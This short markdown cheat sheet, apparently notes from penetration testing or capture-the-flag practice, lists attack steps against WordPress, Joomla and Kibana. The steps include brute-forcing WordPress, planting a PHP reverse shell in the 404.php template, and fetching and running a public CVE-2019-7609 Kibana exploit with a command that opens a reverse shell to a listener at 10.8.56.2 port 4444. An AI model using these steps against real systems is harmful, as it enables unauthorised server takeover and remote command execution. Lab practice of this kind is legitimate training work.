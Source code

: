 # Scan and Enumerate Platform
  
## Wordpress
- [wpscan]
    - scan
    - brut-force
    - php-reverse-shell to 404.php
    - run 404.php on browser ann get shell


## Joomla
- [joomscan]
    - scan


## kibana
- [CVE-2019-7609] 
    - https://github.com/LandGrey/CVE-2019-7609
    - wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py
    - python2 CVE-2019-7609-kibana-rce.py -h
    - python2 CVE-2019-7609-kibana-rce.py -u http://target.ip:5601 -host 10.8.56.2 -port 4444 --shell